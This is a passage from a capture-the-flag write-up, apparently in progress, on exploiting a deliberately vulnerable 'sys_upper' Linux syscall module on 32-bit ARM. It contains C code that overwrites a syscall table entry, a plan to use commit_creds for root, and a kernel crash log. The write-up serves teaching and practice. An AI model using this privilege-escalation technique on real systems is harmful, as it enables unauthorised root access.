 >I made a new system call for Linux kernel.
>It converts lowercase letters to upper case letters.
>would you like to see the implementation?

# understanding the challenge
we get a new system call called `sys_upper` which writes the bytes from `in` to `out` 
and if it encounters a lowercase letter it converts it to uppercase. Moreover it copies `strlen(in)` bytes, meaning the exploit payload cannot contain null character.

when initialing the kernel module the `sys_upper` pointer is written the the syscall table at 0x8000e348.
in the code `#define SYS_CALL_TABLE      0x8000e348      // manually configure this address!!` 
I'm not sure if they are telling us to configure this address or to configure it... I think it's the real syscall table address, 
because we didn't initialized other handlers.

let's check if I can call it...
running `dmesg` we get `sys_upper(number : 223) is added`
we don't have python on the VM. 

```C
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define SYS_UPPER 223
int main(int argc, char *argv[]) {
    if (argc != 2)
        return -1;

    char* out = malloc(strlen(argv[1]));     

    // strcpy(out, argv[1]);
    syscall(SYS_UPPER, argv[1], out);


    printf("in: %s\n", argv[1]);
    printf("out: %s\n", out);
    free(out);
    return 0;
}
```

returned 
```text
in: abc
out: ABC
```

### understanding the privileges
`syscalls` runs in kernel mode. 
I think that only kernel pages could contain `syscalls`, if you think about it when running in kernel mode I can execute userland pages.
to understand better the challenge I'm reading about kernel exploitation see `kernel.md`
## goal
read the flag from `/root/flag` with root privileges.

## vulnerability
The syscall doesn't check which location we read from and which we write to.
We know the location in memory of the syscall table.

## abilities
* I can read anything in the syscall memory to `out`
* I can write anything to `out`


### Idea
* save the process context
* overwrite `sys_upper` entry in the syscall table to exploit function, assuming there is no SMEP.
* call `prepare_kernel_creds` and `commit_creds`
* `ireq` to userland and to `system(/bin/sh)`

First try to develop the exploit without running it locally with debugger. 
Notice that for running locally you will need to set the syscall table at a fixed location and insert the model.

## analyzing 
If  `sys_upper`  location is **above** the exploit location in memory then we could not overwrite all the bytes inside the entry.
1. let's check it.
2. I can use the linker to determine the location of the executable.
3. I can you a gadget.

```C
#include <sys/syscall.h>
#include <stdio.h>
#include <stdlib.h>

#define SYS_UPPER 223
#define SYS_CALL_TABLE		0x8000e348

void exploit() {
    puts("[+] redirected syscall execution");
    exit(0);
}

int main(int argc, char *argv[]) {
    char *entry = (char *)(SYS_CALL_TABLE + SYS_UPPER);
    char *entry_value = "AAAAAAAA";

    printf("exploit location: %p\n", (void *)exploit);
    // overwrite syscall entry
    syscall(SYS_UPPER, entry_value, entry);
    printf("in: %s\n", entry_value);
    // printf("out: %s\n", entry); could not print kernel pages

    // triger hook
    syscall(SYS_UPPER);
    return 0;
}
```
it crashes in `strlen` from analysis we can understand that this machine is `arm` 32bit.
```
exploit location: 0x8429
in: AAAAAAAA
Unable to handle kernel NULL pointer dereference at virtual address 00000001
pgd = 83ec8000
[00000001] *pgd=65f19831, *pte=00000000, *ppte=00000000
Internal error: Oops: 17 [#1] SMP ARM
Modules linked in: m(PO)
CPU: 0 PID: 546 Comm: sol Tainted: P           O 3.11.4 #13
task: 869763c0 ti: 85702000 task.ti: 85702000
PC is at strlen+0x0/0x2c
LR is at sys_upper+0x10/0x48 [m]
pc : [<80196b58>]    lr : [<7f000010>]    psr: 80000013
sp : 85703f98  ip : 10c53c7d  fp : 00000000
r10: 00000000  r9 : 85702000  r8 : 8000e348
r7 : 000000df  r6 : 00008520  r5 : 00000000  r4 : 00000001
r3 : 7edc4e84  r2 : 00000001  r1 : 00000000  r0 : 00000001
Flags: Nzcv  IRQs on  FIQs on  Mode SVC_32  ISA ARM  Segment user
Control: 10c53c7d  Table: 63ec806a  DAC: 00000015
Process sol (pid: 546, stack limit = 0x85702238)
Stack: (0x85703f98 to 0x85704000)
3f80:                                                       7edc4e84 00000001
3fa0: 8000e427 8000e1a0 00000001 8000e427 00000001 00000000 00000001 7edc4e84
3fc0: 00000001 8000e427 00008520 000000df 00000000 00000000 76f51000 00000000
3fe0: 7edc4d20 7edc4d10 00008499 76edc8f0 60000010 00000001 8028f8dd 6300f5c1
[<80196b58>] (strlen+0x0/0x2c) from [<7f000010>] (sys_upper+0x10/0x48 [m])
[<7f000010>] (sys_upper+0x10/0x48 [m]) from [<8000e1a0>] (ret_fast_syscall+0x0/0x30)
Code: e3120020 1afffff9 e12fff1e 8037ba48 (e5d03000)
---[ end trace 10626a2968dc530c ]---
Segmentation fault
```

checked without overwrite and still the same error occurs. Moreover we can learn that `lr` (return address) is the location of `sys_upper` which is `0x7f000010`, so most likely we would have to overwrite 4 bytes...